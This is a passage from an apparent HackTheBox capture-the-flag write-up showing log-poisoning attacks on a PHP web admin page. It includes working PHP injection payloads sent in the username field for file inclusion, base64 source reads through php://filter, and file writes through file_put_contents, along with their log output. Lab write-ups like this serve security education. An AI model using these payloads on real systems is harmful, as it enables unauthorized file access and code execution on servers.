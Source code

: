     
    
    [04 March 2019, 10:47:48 AM] 10.10.14.14 - Username: Array
    (
        [0] => .
        [1] => ..
        [2] => index.html
        [3] => webadmin.php
    )
    1, Password: xxxxxx
    

#### File Read

I can do a similar thing using `include` to read from files. So first I’ll
POST with `username=<?php include($_GET['file']);?>`, and then I’ll view
`action=show&site=hackthebox&password=12345678&session=8870c91857abf06f5f0fe0d9acea7f53d846be75c18ab95a0018a32a6b5518f7&dir=.&file=index.html`:

    
    
    [04 March 2019, 11:33:35 AM] 10.10.14.14 - Username: <!DOCTYPE html>
    <html>
      <head>
        <meta http-equiv="refresh" content="0; URL='/'" />
      </head>
      <body>
      </body>
    </html>
    , Password: xxxxxx
    

I can also read php files with a php filter. If I set
`file=php://filter/convert.base64-encode/resource=webadmin.php`, then I get
back:

    
    
    [04 March 2019, 11:33:35 AM] 10.10.14.14 - Username: PD9waHAKICAkaXBfaGF...[snip]...ID8+Cg==, Password: was here
    

#### Write File

I will use `file_put_contents` to write files on target. I don’t want to pass
my file contents through the url, as that is limited on space. I will also
base64 my content to ensure that it doesn’t causes issues with spaces or
punctuation.

I’ll start by base64 encoding what I want to put:

    
    
    root@kali# echo "0xdf was here" | base64 -w0
    MHhkZiB3YXMgaGVyZQo=
    

Then I’ll poison the log with `username=<?php $f = "MHhkZiB3YXMgaGVyZQo=";
file_put_contents("0xdf.txt", base64_decode($f)); ?>`

If I do a dir listing on `.` right now, I won’t see the file. That’s because
the file isn’t written yet. But the act of viewing the log to see the dir list
also wrote the file, so just running the same dirlist again will show it:
